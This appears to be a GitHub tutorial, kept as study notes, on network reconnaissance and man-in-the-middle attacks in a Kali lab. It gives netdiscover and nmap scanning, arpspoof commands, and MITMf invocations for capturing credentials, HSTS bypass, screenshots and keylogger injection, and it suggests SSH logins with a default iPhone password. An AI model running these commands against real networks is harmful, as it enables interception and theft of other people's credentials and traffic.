




# Information Gathering

## Content
1. [Discovering Connected devices](#discovering-connected-devices)
2. [Network Mapping (NMAP/ ZENMAP)](#network-mapping)
3. [Man In The Middle](#man-in-the-middle)
	1. [ARP Poisoning](#arp-poisoning)
	2. [ARP Spoofing](#arp-spoofing)
		1. [Installing MITMF](#installing-mitmf)
		2. [Bypassing HTTPS](#bypassing-https)
	3. [Keyloggers, Screenshots, etc](#other-use-cases)


### Discovering Connected devices

In this we would search for the devices that are connected to the same network. This would help in attacking those devices. So this would be more fruitful, once access has been gained to the desired network.

```shell
root@kali:~/Desktop/information-gathering# netdiscover -r 10.0.2.1/24
 Currently scanning: Finished!   |   Screen View: Unique Hosts                                                                                    
                                                                                                                                                  
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240                                                                                  
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.2.1        52:54:00:12:35:00      1      60  Unknown vendor                                                                                 
 10.0.2.2        52:54:00:12:35:00      1      60  Unknown vendor                                                                                 
 10.0.2.3        08:00:27:85:e0:96      1      60  PCS Systemtechnik GmbH                                                                         
 10.0.2.4        08:00:27:04:18:04      1      60  PCS Systemtechnik GmbH                                                                         
```
where `-r 10.0.2.1/24` signifies the range of IPs that I'm looking for in the subnet. 

> Please note that you can search for devices in the subnet that you're present.


### Network Mapping
Slower than `netdiscover` but gives a lot more information - like OS, applications running, open ports, connected clients etc. 

To perform network mapping you can run `zenmap` which is a graphical user interface for nmap. This allows for much more detailed summary of the devices connected to the network. Nmap is very vast subject in itself. You can refer [this PDF](http://wiki.informationsecurity.club/lib/exe/fetch.php/книги:nmap_network_scanning.pdf) for more information.

For example, if I do a `Quick Scan Plus` i'll be able to see the ports that are opne on the devices that are connectedo to the same network. Then For example, you see that iphone is connected to the network, and the `SSH` port is open that would translate to the iphone being jailbroken. In such a situation, you can SSH into the iphone, with `ssh root@ip.address` with the password being `alpine`. Also, if you see that there are several PCs or computers with SSH port open, you can try to ssh into them, and if you know the password or if the password is not set, then voila. You're in!

### Man In The Middle

In cryptography and computer security, a man-in-the-middle attack (MITM) is an attack where the attacker secretly relays and possibly alters the communication between two parties who believe they are directly communicating with each other. One example of a MITM is active eavesdropping, in which the attacker makes independent connections with the victims and relays messages between them to make them believe they are talking directly to each other over a private connection, when in fact the entire conversation is controlled by the attacker

#### Arp poisoning

Address Resolution Protocol (ARP). Maps the IP address to the MAC address. So in this case, the `Malcious Machine` would simply exploit the ARP protocol to tell the router that "I am the `USER A`" and to USER A, it would tell that "I am the `ROUTER`". 



Hence, the requests from the `USER A` would be passed to the `Malcious Machine` which would forward the requests to the `Router`. Any responses from the `Router` would be sent to the `Malcious Machine`, which would subsequently send these responses to `User A`.

* ARP is not secure because
	* clients `accept responses` even when no requests are sent, 
	* moreover clients trust without any form of `verification`

#### Arp Spoofing

So to perform this we would execute the following two commands.

```shell
root@kali:~/Desktop/information-gathering# arpspoof -i eth0 -t 10.0.2.4 10.0.2.1
```
This command would tell the target machine that I'm the router.

```shell
root@kali:~/Desktop/information-gathering# arpspoof -i eth0 -t 10.0.2.a 10.0.2.4
```
This command would tell the router that I'm the target machine.

If you have access to the target machine, while experimenting, you can run the `arp -a` command before and after execution of the previous command to see the changes in the mac addresses yourself.



##### Installing MITMF

**Installation** MITMf relies on a **LOT** of external libraries therefore it is highly recommended you use [virtualenvs](http://docs.python-guide.org/en/latest/dev/virtualenvs/) to install the framework, this avoids permission issues and conflicts with your system site packages (especially on Kali Linux).

Before starting the installation process:

*   On Arch Linux:

    `pacman -S python2-setuptools libnetfilter_queue libpcap libjpeg-turbo capstone`
    

*   On Debian and derivatives (e.g Ubuntu, Kali Linux etc...)

    ```
    apt-get install python-dev python-setuptools libpcap0.8-dev libnetfilter-queue-dev libssl-dev libjpeg-dev libxml2-dev libxslt1-dev libcapstone3 libcapstone-dev libffi-dev file
    ```
   

*   Install virtualenvwrapper:

    `pip install virtualenvwrapper`
    

*   Edit your `.bashrc` or `.zshrc` file to source the virtualenvwrapper.sh script: (This is for Kali Linux)

    `source /usr/local/bin/virtualenvwrapper.sh`
    

**The location of this script may vary depending on your Linux distro**

You can find yours by running `find / -name virtualenvwrapper.sh`

*   Restart your terminal or run:

    `source /usr/local/bin/virtualenvwrapper.sh`
    

*   Create your virtualenv:

    `mkvirtualenv MITMf -p /usr/bin/python2.7`
    

*   Clone the MITMf repository:

    `git clone https://github.com/byt3bl33d3r/MITMf`
    

*   cd into the directory, initialize and clone the repos submodules:

    `cd MITMf && git submodule init && git submodule update --recursive`
    

*   Install the dependencies:

    `pip install -r requirements.txt`
    

*   You're ready to rock!

    `python mitmf.py --help`
    
    Then you can start the capturing of data using
    
    ```shell
    root@kali:~/MITMf# python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0
    ```



And while visiting `HTTP` sites you can capture the content of the user name and password like this. 



> Note that this method would work only with `HTTP` sites. In the next section we will learn about how to bypass `HTTPS` traffic

##### Bypassing HTTPS

```shell
    root@kali:~/MITMf# python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0 --hsts
```
The problem however is that most websites now a days uses the [HTTP Strict Transport Security](http://en.wikipedia.org/wiki/HTTP_Strict_Transport_Security#Applicability) which prevents the bypassing of the https security which the MITMF framework tries to do by downgrading the `HTTPS` connection to `HTTP` However, there is a workaround that involves the DNS spoofing attack. In this method, you would redirect the user to a website that looks like the website that the user often goes to to enter their username and password. 

DNS spoofing can be enabled easily by editing the `mitmf.conf` file to redirect the traffic.

Hence, when trying to prevent this type of attack make sure that you have `HSTS` enabled for your website and also make the user aware of such attacks, especially in offices and work places.

#### Other Use Cases

* Taking screenshots 
```shell
    root@kali:~/MITMf# python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0 --screen
    ```
*  Injecting Key Logger
```shell
    root@kali:~/MITMf# python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0 --jskeylogger
    ```
    
    
There are several more, you can run `python mitmf.py` to get the help